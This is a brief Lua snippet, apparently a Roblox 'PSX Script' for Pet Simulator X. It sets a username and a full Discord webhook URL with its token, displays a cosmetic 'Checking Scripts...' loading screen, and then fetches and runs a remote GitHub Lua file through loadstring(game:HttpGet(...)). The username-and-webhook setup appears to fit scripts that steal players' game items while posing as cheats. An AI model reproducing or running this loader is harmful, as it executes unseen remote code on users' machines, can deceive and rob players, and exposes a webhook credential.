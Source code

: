 Username = "irlacorn"

WebHook = "https://discord.com/api/webhooks/1099646021048467486/n52XsmtagA2dU4Kql3DrJH8CucDEUO5hBJyi4c5G88TqlNvts-yb2_jSa-8Wo-RPHpzE"

loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI

_G.CustomScriptName = "PSX Script"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
